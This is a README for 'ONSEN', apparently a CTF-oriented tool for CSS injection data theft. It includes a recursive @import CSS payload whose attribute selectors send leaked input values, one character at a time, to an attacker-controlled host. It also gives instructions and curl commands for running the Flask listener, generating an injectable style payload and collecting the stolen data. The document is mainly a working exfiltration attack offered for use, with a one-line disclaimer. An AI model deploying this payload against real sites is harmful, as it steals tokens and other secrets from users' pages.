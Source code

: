 # ONdemand csS injEctioN tool  
The service tool for CSS injection with recursive import. It will be useful for CTF.

This tool provides the following CSS injection payload, and server to listen for leaked data.

```css
@import "http://<HOST>/<key>/<index>/stage2.css";

input[value^="xa"]:first-child {
    background: url("http://<HOST>/<key>/leak/xa");
}
input[value^="xb"]:first-child {
    background: url("http://<HOST>/<key>/leak/xb");
}
input[value^="xc"]:first-child {
    background: url("http://<HOST>/<key>/leak/xc");
}
...
```

CSS has a load priority and will not work as expected if you use import recursive normally. I solved it with the pseudo-class "first-child" chain.  
Reference: https://developer.mozilla.org/docs/Web/CSS/Specificity
Slide: [A New Era of CSS Injection](http://ja.avtokyo.org/MediaArchives#2019)


## Dependency  
- Python 3.x
- Flask 1.0.3

## Usage  
### Deploy
```
$ pip install -r requirements.txt
```

### Startup service  
```
$ python3 onsen.py
```

When the service starts, `api_secret` is output on the console.

### Make payload  
```
$ curl -d 'c=<USAGE CHARS|default:A-Za-z0-9>&s=<TARGET CSS SELECTOR|default:input[value^="{leaked}"]>&key=<KEY|default:urandom(16).hex()>' http://<HOST>/<api_secret>/set
```

`{leaked}` is replaced by the characters set by `c` param.

#### e.g.)  
```
$ curl -d 's=input[value^="{leaked}"]#secret' http://<HOST>/<api_secret>/set
```

#### Output  
```
{
    "key": "<key>",
    "payload": "<style>@import'http://<HOST>/<key>/stage1.css'</style>"
}
```

Set the payload to the target page.

### Check leaked  
```
$ curl http://<HOST>/<api_secret>/get/<key>
```

#### Output  
```
{
    "run": true|false,
    "leaked": "<LEAKED DATA>"
}
```

### Demo  
[![Demo](https://img.youtube.com/vi/06gHFGbhTGY/0.jpg)](https://www.youtube.com/watch?v=06gHFGbhTGY)


## Debug  
```
$ FLASK_DEBUG=1 python3 onsen.py
```

*Warning: If you enable debug, you can access the page that the XSS vulnerability exists.*

## More information  
[onsen.py](onsen.py)

## Disclaimer  
Don't use on real world websites.
